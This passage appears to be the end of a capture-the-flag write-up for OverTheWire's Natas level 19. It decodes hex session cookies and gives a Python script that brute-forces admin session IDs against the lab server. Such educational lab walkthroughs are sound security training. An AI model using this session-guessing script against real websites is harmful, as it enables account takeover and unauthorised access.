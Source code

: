 So the session ID is an hexadecimal number. Let's decode it:

```python
id_hex = requests.utils.dict_from_cookiejar(r.cookies)['PHPSESSID']
print(id_hex.decode('hex'))
```

Mmmm, interesting:

```
0
548-user
1
275-user
2
237-user
3
90-user
4
535-user
(...)
```

The session ID is really a random number (below 640) attached to the given username. That's easy.

#### Crafting the attack:


We write the following script:

```python
import requests

def brute_force_password(AUTH, URL, PAYLOAD, MAXID):
    for i in range(MAXID):
        HEADER ={'Cookie':'PHPSESSID=' + (str(i) + '-admin').encode('hex')}
        r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
        print(i)
        if "You are an admin" in r.text:
            print(r.text)
            print(r.url)

if __name__ == '__main__':

    AUTH = ('natas19', '***********************')
    URL = 'http://natas19.natas.labs.overthewire.org/index.php?'

    PAYLOAD = ({'debug': '1', 'username': 'admin', 'password': 'pass'})
    MAXID = 640

    brute_force_password(AUTH, URL, PAYLOAD, MAXID)
```

And we get our password in the 501th attempt. Awesome.



_____________________

That's it. The [source code is available] as usual.


Hack all the things!

[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits









[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php